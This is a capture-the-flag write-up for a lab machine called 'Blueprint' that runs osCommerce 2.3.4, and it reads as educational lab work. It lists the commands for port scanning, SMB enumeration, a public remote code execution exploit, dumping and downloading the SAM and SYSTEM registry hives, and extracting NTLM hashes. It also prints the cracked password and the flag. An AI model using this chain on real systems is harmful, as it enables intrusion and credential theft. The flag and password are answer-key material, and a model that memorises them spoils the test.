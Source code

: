 # Blueprint

## Task 1

### 1.1

Run nmap scan to find ports.

```
sudo nmap -sS -sV 10.10.197.246 -oN nmap.out
```

![alt text](images/blueprint/image.png)

3 web servers open, on ports 80, 443, and 8080. SMB port 445. MySQL server on port 3306. Can enumerate SMB. Will need to find MySQL credentials to access.

Will enumerate SMB with enum4linux and nmap:

```
enum4linux -a 10.10.197.246 2>&1 | tee smb_enum.out
```

```
nmap -p 445 --script smb-enum-users 10.10.197.246
```

Found workgroup 'WORKGROUP'.

![alt text](images/blueprint/image-6.png)

Found users 'Administrator', 'Guest', and 'Lab'.

![alt text](images/blueprint/image-5.png)

Going to port 80 gives:

![alt text](images/blueprint/image-1.png)

Going to port 443 gives bad request. With 'http://' replaced with 'https://', gives a directory.

![alt text](images/blueprint/image-2.png)

Going to port 8080 gives the same as port 443's web server.

Going to 'http://10.10.197.246:8080/oscommerce-2.3.4/catalog/' brings you to an e-shop website:

![alt text](images/blueprint/image-3.png)

eshop is ran by software called 'osCommerce' and is running version 2.3.4. Will look for exploit in searchsploit:

```
searchsploit oscommerce 2.3.4
```

![alt text](images/blueprint/image-7.png)

Found remote code execution script. Will execute with the script.

```
python3 50128.py http://10.10.197.246:8080/oscommerce-2.3.4/catalog/
```

![alt text](images/blueprint/image-8.png)

Will copy SAM and SYSTEM files for the 'Lab' user's NTLM hash.

```
reg save hklm\sam SAM
reg save hklm\system SYSTEM
```

Since the directory that the shell is currently in can be accessed via the browser, I can download the SAM and SYSTEM files through the URL: (http://10.10.197.246:8080/oscommerce-2.3.4/catalog/install/includes)

![alt text](images/blueprint/image-9.png)

Then I will get the hashes of all the users with samdump2:

```
samdump2 -o samdump.out SYSTEM SAM
```

![alt text](images/blueprint/image-10.png)

Will then use Crackstation to crack the NTLM hash. The result is:

googleplus

### 1.2

To get the flag, I enter:

```
type C:\Users\Administrator\Desktop\root.txt.txt
```

THe flag is:

THM{aea1e3ce6fe7f89e10cea833ae009bee}